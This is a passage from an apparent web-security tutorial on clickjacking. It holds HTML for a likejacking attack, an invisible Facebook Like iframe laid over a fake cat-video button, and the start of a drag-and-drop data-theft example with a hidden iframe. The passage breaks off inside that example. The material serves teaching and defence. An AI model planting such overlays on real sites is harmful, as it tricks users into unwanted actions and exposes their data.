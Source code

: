 In this attack, users think they're claiming a prize, but they're actually clicking on a hidden banking interface that might delete their account or transfer funds.

### 2. Likejacking

A specific type of clickjacking targeting social media platforms, where users unknowingly like, share, or follow content.

**Likejacking Implementation:**

```html
<div style="position: relative;">
    <!-- Visible content that users want to interact with -->
    <div class="interesting-content">
        <h2>Amazing Cat Video - Click to Play!</h2>
        <img src="cat-thumbnail.jpg" alt="Cute cat">
    </div>
    
    <!-- Hidden Facebook Like button positioned over the play button -->
    <iframe 
        src="https://www.facebook.com/plugins/like.php?href=https://malicious-site.com"
        style="
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
            z-index: 999;
        "
        scrolling="no">
    </iframe>
</div>
```

### 3. Drag and Drop Attacks

These attacks exploit the HTML5 drag and drop functionality within iframes to steal sensitive information.

**Drag and Drop Attack Example:**

```html
<style>
    .drop-zone {
        width: 300px;
        height: 200px;
        border: 2px dashed #ccc;
        text-align: center;
        padding: 50px;
        position: relative;
    }
    
    .hidden-sensitive-iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        opacity: 0;
        pointer-events: none;
    }
</style>

<div class="drop-zone" ondrop="stealData(event)" ondragover="allowDrop(event)">
    <p>Drop your files here to upload</p>
```